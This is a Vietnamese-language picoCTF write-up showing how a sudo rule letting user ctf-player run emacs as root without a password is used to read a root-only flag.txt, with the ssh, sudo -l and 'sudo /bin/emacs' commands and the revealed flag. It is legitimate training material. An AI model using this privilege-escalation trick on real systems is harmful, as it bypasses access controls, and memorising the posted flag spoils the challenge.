





# picoCTF Writeup - SUDO MAKE ME A SANDWICH

## Mục tiêu
Dưới đây là mô tả chi tiết từ đề bài:



Đọc nội dung của file flag.txt đang bị giới hạn quyền truy cập (chỉ dành cho user root) trên server của thử thách để lấy cờ (flag).

## Phân tích
Dựa trên các dữ kiện thu thập được:
- **Dấu hiệu:** File flag.txt thuộc sở hữu của root và user thường bị từ chối truy cập (Permission denied) khi dùng lệnh cat. Tuy nhiên, khi kiểm tra bằng lệnh sudo -l, hệ thống cho phép user ctf-player chạy lệnh /bin/emacs với quyền root mà không cần nhập mật khẩu (NOPASSWD).

- **Lỗ hổng:** Lạm dụng đặc quyền Sudo (Sudo Misconfiguration / Privilege Escalation via Sudo).

- **Ý tưởng:** Emacs là một trình soạn thảo văn bản. Vì chúng ta được phép chạy Emacs dưới quyền của root, chúng ta có thể sử dụng chính trình soạn thảo này để mở và xem trực tiếp nội dung của file flag.txt mà hệ thống không thể ngăn chặn.

## Khai thác
Các bước thực hiện chi tiết:

1. **Kết nối tới dịch vụ:**
```bash
ssh -p 59767 ctf-player@green-hill.picoctf.net
```

2. **Kiểm tra file và đặc quyền hiện tại**
Sau khi đăng nhập thành công, ta thử đọc file flag nhưng thất bại do thiếu quyền:
```bash
cat flag.txt
# Kết quả: cat: flag.txt: Permission denied
```
Kiểm tra chi tiết quyền của file và thấy file thuộc về root:
```bash
ls -la
```
Kiểm tra xem user ctf-player có quyền sudo nào không:
```bash
sudo -l
# Kết quả trả về: (ALL) NOPASSWD: /bin/emacs
```

3. **Khai thác lỗ hổng bằng Emacs**
Sử dụng đặc quyền sudo vừa tìm được để mở file flag.txt bằng trình soạn thảo Emacs:
```bash
sudo /bin/emacs /home/ctf-player/flag.txt
```

4. **Lấy cờ**
Trình soạn thảo Emacs sẽ được mở lên với quyền root và hiển thị thành công nội dung của file flag.
Flag thu được: picoCTF{ju57_5ud0_17_4c6f730f}

Các bước được mô tả bằng hình ảnh chi tiết:









